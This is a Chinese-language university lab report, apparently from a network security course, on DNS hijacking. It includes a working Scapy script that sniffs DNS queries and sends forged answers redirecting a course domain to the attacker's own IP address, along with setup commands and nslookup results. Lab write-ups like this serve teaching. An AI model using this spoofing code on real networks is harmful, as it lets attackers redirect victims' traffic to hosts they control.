


# 网安工第三次实验

> 2017011313 刘丰源
> 2017011305 安 di

## DNS 劫持

### 本机启动 apache2

```shell
sudo apt install apache2
sudo /etc/init.d/apache2 start
```

### 开启 DNS 劫持

```shell
sudo pip3 insatll -r requirements.txt
sudo python3 run.py
```

代码如下：

```py
registers = {'ns.course.secrank.cn': '10.0.2.43'}

def prn(pkt):
    cap_domain = str(pkt[DNSQR].qname)[2:len(str(pkt[DNSQR].qname))-2]
    if cap_domain in registers:
        fakeResponse = IP(dst=pkt[IP].src, src=pkt[IP].dst)\
            / UDP(dport=pkt[UDP].sport, sport=53)\
            / DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, qr=1, ancount=1, an=DNSRR(rrname=pkt[DNSQR].qname, rdata=registers[cap_domain]) / DNSRR(rrname=pkt[DNSQR].qname, rdata=registers[cap_domain]))
        send(fakeResponse, verbose=0)

sniff(prn=prn, filter='udp dst port 53', store=0)
```

劫持受害者的 DNS 解析请求，构造 sniff filter：udp dst port 53 。

如果请求的域名为 `ns.course.secrank.cn` ，则返回 `10.0.2.43` ，即自己的 IP 地址。

### 实验结果

进入受害者的机器进行测试。

如图所示，通过 nslookup 可以看出，`ns.course.secrank.cn` 返回的 IP 地址确实是 `10.0.2.43` ：



访问 `http://ns.course.secrank.cn` ，显示如下：


